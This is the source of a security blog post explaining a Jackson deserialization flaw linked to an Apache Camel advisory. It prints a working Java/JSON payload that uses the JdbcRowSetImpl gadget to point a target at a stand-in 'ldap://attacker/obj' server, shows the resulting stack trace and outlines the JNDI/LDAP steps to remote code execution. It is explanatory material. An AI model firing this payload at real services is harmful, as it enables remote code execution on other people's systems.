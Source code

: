```yaml
---
layout: post
title: "Jacksson deserialization exploits"
author: capitol
category: security
---
```

![serialize](/images/serialize.png)

Earlier this year there was an remote execution exploit published against 
[apache camel](http://camel.apache.org/security-advisories.data/CVE-2016-8749.txt.asc?version=2&modificationDate=1486565034000&api=v2).
 Lets look at how that exploit works and how to use it.
 
First some background, apache camel is a framework that helps with building integrations
between different components in a system. You can for example read from an jms queue 
and write to a https endpoint, very enterprise.

The exploit itself was in the jackson library that camel used to serialize/deserialize.

The vulnerability in jackson can be demonstrated with just a few lines of java code:

```java
    String json = "[\"java.util.List\", [[\"com.sun.rowset.JdbcRowSetImpl\" ,{\n" +
            "\"dataSourceName\":\n" +
            "\"ldap://attacker/obj\" ,\n" +
            "\"autoCommit\" : true\n" +
            "}]]]";

    ObjectMapper om = new ObjectMapper();
    om.enableDefaultTyping();
    Object o = om.readValue(json, List.class);
```

Running it gives the error:
```java
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: JdbcRowSet (anslut) JNDI kan inte anslutas
 at [Source: ["java.util.List", [["com.sun.rowset.JdbcRowSetImpl" ,{
"dataSourceName":
"ldap://attacker/obj" ,
"autoCommit" : true
}]]]; line: 4, column: 16] (through reference chain: java.util.ArrayList[0]->com.sun.rowset.JdbcRowSetImpl["autoCommit"])
	at com.fasterxml.jackson.databind.JsonMappingException.from(JsonMappingException.java:223)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:537)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:518)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:99)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
	at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:279)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:249)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:26)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromArray(AsArrayTypeDeserializer.java:50)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserializeWithType(CollectionDeserializer.java:310)
	at com.fasterxml.jackson.databind.deser.impl.TypeWrappedDeserializer.deserialize(TypeWrappedDeserializer.java:42)
	at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3788)
	at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2779)
	at no.hackeriet.App.main(App.java:23)
Caused by: java.sql.SQLException: JdbcRowSet (anslut) JNDI kan inte anslutas
	at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:634)
	at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:97)
	... 15 more
```

There is a type check in the readValue class, but that doesn't stop the attack
since it only checks that it's a List that we try to deserialize, and the content
of the list isn't type checked due to [type erasure](https://docs.oracle.com/javase/tutorial/java/generics/erasure.html).

The reason that jackson lets the sender specify the java classes that's the json gets deserialized to
is because of the call `om.enableDefaultTyping();`. The same functionality can also be triggered if you
have annotated a `java.lang.Object` with `@JsonTypeInfo`.

If you don't do that in your code then you are safe from this attack.

#### Gadgets

The classes that we can use to escalate an deserialization into remote code execution are called gadgets.

More modern versions of jackson have a blacklist with known dangerous classes that it refuses to deserialize
[here](https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/deser/BeanDeserializerFactory.java#L46).

But there is a large number of java classes out there and it's impossible to defend against all of them.

In order for a class to be a valid gadget for a jackson deserialization attack these criteria needs
to be fulfilled:

* A default constructor, i.e. a constructor without any arguments.
* A method that acts on the argument in a non-trivial way, the simplest is if you are able to 
provide a serialized java class with a function that gets called. But there is a number of other
ways, for example using jndi connections.

#### The LDAP gadget

For those that ain't that deep into the java world, a quick description of JNDI is this:
JNDI does for LDAP what JDBC does for a Database, in other words it provides an interface
 to interact with the ldap server from java.
 
How the ldap url leads to remote code execution a bit out of scope but is described [here](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf).

To summarize the attack have these steps:
1. Attacker provides an absolute LDAP URL to a vulnerable JNDI lookup method.
2. Target connect's to an attacker controlled LDAP Server that returns a malicious JNDI Reference.
3. Target decodes the JNDI Reference.
4. Target fetches the Factory class from attacker-controlled server.
5. Target instantiates the Factory class.
6. Payload gets executed.
